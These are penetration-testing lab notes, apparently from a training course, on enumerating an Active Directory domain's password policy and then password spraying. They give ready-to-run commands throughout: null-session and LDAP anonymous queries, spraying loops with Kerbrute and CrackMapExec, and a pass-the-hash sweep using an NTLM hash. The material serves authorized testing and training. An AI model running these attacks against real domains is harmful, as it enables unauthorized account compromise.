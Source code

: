 # Enumerating the Password Policy
With valid domain credentials, the password policy can also be obtained remotely using tools such as CrackMapExec or rpcclient.
## Linux
```
$ crackmapexec smb 172.16.5.5 -u avazquez -p Password123 --pass-pol
```

### SMB NULL Sessions
SMB NULL sessions allow an unauthenticated attacker to retrieve information from the domain, such as a complete listing of users, groups, computers, user account attributes, and the domain password policy. SMB NULL session misconfigurations are often the result of legacy Domain Controllers being upgraded in place, ultimately bringing along insecure configurations, which existed by default in older versions of Windows Server.


**Using rpcclient**
```
$ rpcclient -U "" -N 172.16.5.5
rpcclient $> querydominfo
```

**Using enum4linux**
```
$ enum4linux -P 172.16.5.5
```

**Using enum4linux-ng**
```
$ enum4linux-ng -P 172.16.5.5 -oA ilfreight

$ cat ilfreight.json 
```

**LDAP Anonymous Bind**
```
$ ldapsearch -h 172.16.5.5 -x -b "DC=INLANEFREIGHT,DC=LOCAL" -s sub "*" | grep -m 1 -B 10 pwdHistoryLength
```

## Windows
### Enumerating Null Session.
```
> net use \\DC01\ipc$ "" /u:""
```

#### Using net.exe
```
> net accounts
```

### Using PowerView
```
PS > import-module .\PowerView.ps1
> Get-DomainPolicy
```

# Password Spraying
Password spraying can result in gaining access to systems and potentially gaining a foothold on a target network. The attack involves attempting to log into an exposed service using one common password and a longer list of usernames or email addresses. The usernames and emails may have been gathered during the OSINT phase of the penetration test or our initial enumeration attempts. Remember that a penetration test is not static, but we are constantly iterating through several techniques and repeating processes as we uncover new data. Often we will be working in a team or executing multiple TTPs at once to utilize our time effectively. As we progress through our career, we will find that many of our tasks like scanning, attempting to crack hashes, and others take quite a bit of time. We need to make sure we are using our time effectively and creatively because most assessments are time-boxed. So while we have our poisoning attempts running, we can also utilize the info we have to attempt to gain access via Password Spraying. Now let's cover some of the considerations for Password spraying and how to make our target list from the information we have.

## Linux
Now that we have created a wordlist using one of the methods outlined in the previous sections, it’s time to execute our attack. The following sections will let us practice Password Spraying from Linux and Windows hosts. This is a key focus for us as it is one of two main avenues for gaining domain credentials for access, but one that we also must proceed with cautiously.


### Using a Bash one-liner
```
$for u in $(cat valid_users.txt);do rpcclient -U "$u%Welcome1" -c "getusername;quit" 172.16.5.5 | grep Authority; done
```

### Using Kerbrute 
```
$ kerbrute passwordspray -d inlanefreight.local --dc 172.16.5.5 valid_users.txt  Welcome1
```

### Using CrackMapExec 
```
$ sudo crackmapexec smb 172.16.5.5 -u valid_users.txt -p Password123 | grep +
```

**Validating the Credentials with CrackMapExec**
```
$ sudo crackmapexec smb 172.16.5.5 -u avazquez -p Password123
```

**Local Administrator Password Reuse**
```
$ sudo crackmapexec smb --local-auth 172.16.5.0/23 -u administrator -H 88ad09182de639ccc6579eb0849751cf | grep +
```

## Windows
### Using DomainPasswordSpray.ps1
```
PS > Import-Module .\DomainPasswordSpray.ps1
PS > Invoke-DomainPasswordSpray -Password Welcome1 -OutFile spray_success -ErrorAction SilentlyContinue
```

